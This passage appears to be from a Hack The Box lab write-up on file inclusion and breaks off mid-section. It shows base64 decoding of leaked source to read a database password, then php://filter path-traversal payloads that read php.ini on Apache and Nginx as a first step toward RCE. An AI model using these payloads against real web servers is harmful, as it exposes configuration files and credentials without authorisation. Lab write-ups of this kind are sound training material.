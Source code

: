 ![PHP Filter Extract Source Code](/images/htb/file-inclusion/php-filters-base64-result.png)

We'll use Caido's built in Base-64 decode tool to decode the payload and read the database password.

![Extract database password](/images/htb/file-inclusion/php-filter-result.png)

## PHP Wrappers - Exercise

> Try to gain RCE using one of the PHP wrappers and read the flag at /

We'll read the php.ini file to check if `allow_url_include` is enable for us to use the [php data wrapper](https://www.php.net/manual/en/wrappers.data.php)

We'll use the below payload to read the `php.ini` file:

```
php://filter/read=convert.base64-encode/resource=../../../../etc/php/X.Y/apache2/php.ini
```

For `Nginx`:

```
php://filter/read=convert.base64-encode/resource=../../../..//etc/php/X.Y/fpm/php.ini
```

Different php wrappers to use:

